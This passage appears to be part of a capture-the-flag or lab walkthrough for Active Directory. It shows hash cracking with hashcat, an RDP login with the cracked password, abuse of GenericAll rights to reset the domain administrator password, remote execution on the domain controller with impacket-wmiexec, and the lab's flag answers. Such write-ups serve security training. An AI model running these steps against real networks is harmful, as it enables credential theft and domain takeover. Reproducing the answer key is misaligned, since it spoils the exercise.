 **🎯 Answer**: `CT059`

---

## 🔓 **Question 10: Advanced Hash Cracking**

### **🎯 Task**: "Crack this user's password hash and submit the cleartext password as your answer."

### **📋 Solution Steps:**

```bash
# Crack CT059 hash:
hashcat -m 5600 CT059_hash /usr/share/wordlists/rockyou.txt

# Result: CT059:charlie1
```

**🎯 Answer**: `charlie1`

---

## 👑 **Question 11: Domain Compromise**

### **🎯 Task**: "Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host."

### **📋 Solution Steps:**

#### **Step 1: Access as CT059**
```bash
# RDP as CT059:
proxychains xfreerdp /v:172.16.7.50 /u:CT059 /p:charlie1
```

#### **Step 2: Abuse GenericAll Rights**
```powershell
# CT059 has GenericAll over Domain Admins group
# Reset domain admin password:
net user administrator Welcome1 /domain
```

#### **Step 3: Domain Controller Access**
```bash
# Access DC01 as domain admin:
proxychains impacket-wmiexec administrator:Welcome1@172.16.7.3

# Retrieve flag:
type C:\Users\administrator\desktop\flag.txt
```

**🎯 Answer**: `acLs_f0r_th3_w1n!`

---